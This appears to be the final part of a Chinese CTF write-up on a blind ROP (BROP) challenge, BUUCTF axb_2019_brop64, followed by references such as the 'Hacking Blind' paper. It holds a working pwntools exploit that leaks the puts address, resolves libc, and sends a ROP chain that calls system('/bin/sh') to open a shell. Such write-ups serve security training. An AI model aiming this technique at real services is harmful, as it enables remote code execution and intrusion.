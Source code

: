 ```python
payload += p64(puts_got_addr)
payload += p64(puts_plt_addr)
payload += p64(stop_gadget_addr)

sh = get_sh()
sh.recvuntil(b"Please tell me:")
sh.send(payload)
sh.recvuntil(b'Begin_leak----->' + p64(brop_gadget_addr + 9).strip(b'\x00'))
puts_addr = u64(sh.recvuntil(b'\x0AHello')[:-6].ljust(8,b'\x00'))

libc=LibcSearcher('puts',puts_addr)
libc_base=puts_addr-libc.dump('puts')
system_addr=libc_base+libc.dump('system')
bin_sh_addr=libc_base+libc.dump('str_bin_sh')

payload  = b'A' * padding_length
payload += p64(brop_gadget_addr + 9) # pop rdi;ret;
payload += p64(bin_sh_addr)
payload += p64(system_addr)
payload += p64(stop_gadget_addr)
sh.recvuntil(b"Please tell me:")
sh.send(payload)
sh.recv()
sh.interactive()
sh.close()

```

## 0xff 参考

1. [Hacking Blind](https://ieeexplore.ieee.org/ielx7/6954656/6956545/06956567.pdf?tp=&arnumber=6956567&isnumber=6956545)
2. [C语言函数调用栈(一)](https://www.cnblogs.com/clover-toeic/p/3755401.html)
3. [栈介绍 - CTFWiki](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/)
4. [C语言函数调用栈(二)](https://www.cnblogs.com/clover-toeic/p/3756668.html)
5. [BUUCTF PWN axb_2019_brop64](https://buuoj.cn/challenges#axb_2019_brop64)
6. [Pwn 盲打（Bilnd Pwn）的一般解决思路](https://www.anquanke.com/post/id/196722)
